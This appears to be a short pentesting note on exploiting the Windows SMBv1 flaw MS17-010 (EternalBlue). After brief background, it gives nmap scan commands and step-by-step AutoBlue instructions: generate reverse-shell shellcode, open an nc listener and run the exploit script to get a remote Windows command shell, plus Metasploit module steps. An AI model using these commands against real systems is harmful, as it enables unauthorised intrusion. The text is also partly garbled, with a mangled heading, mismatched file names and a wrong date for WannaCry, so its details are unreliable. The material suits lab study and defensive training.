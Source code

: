 #### Exploiting windows MS17-010
SMB Vulnerability(EternalBby the NSAlue)
- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of windows vulnerabilities and exploits that allow attackers to remotely execute arbitary code and gain access to a Windows system and consequently the network that the target system is a part of.
- EternalBlue exploit was developed  NSA [National Security Agency to take advantages of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
- EternalBlue exploit takes advantage of a vulnerability in the windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitary commands
- The Eternalblue exploit was used in the WannaCry ransomware attack on June 27,2017 to exploit other Windows systems accross networks with the objective of spreading the ransomware to as many systems as possible.
#### This vulnerability affects multiple versions of windows
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows 8.1
- Windows Server 2012
- Windows 10
- Windows Server 2016
#### Tools
- AutoBlue-MS17-010 (github)
- Metasploit modules

#### Exploiting EternalBlue
- sudo nmap -sV -p 445 -O 10.10.10.12 [As eternalblue is smb based so port 445 is used]
- nmap -sV -sS -p 445 --script=smb-vuln-ms17-010 10.10.10.12 [We can confirm that by using this nmap script]
- 
#### Auto-blue tools usages for windows server 8
- git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
- pip install -r requirements.txt
- go to the into the repository
- cd shellcode
- chmod +x shell_preb.sh
- ./shell_preb.sh
- say y for permission,give attacker ip and listening port for 64x and 86x for both etc
- this will generate bin file remember the name in this case it is sc_x64_msf.bin and sc_x86_msf.bin
- we find this bin file in current directory [ in this case shellcode directory]
- cd .. [back one directory]
- here we find python files give executable permissions in this case eternalblue_exploit8.py as our exploit server is 8
- start listener in attacker machine "nc -nvlp port" use same port previously used
- python3 eternalblue_exploit7.py 10.10.10.12 shellcode/sc_x64.bin
- this will give us windows cmd in our attacker machine
#### metasploit module
- in msfmodule search eternalblue
- using auxiliary module we can make sure the vulnerability exist or not
- using exploit module we can exploit it


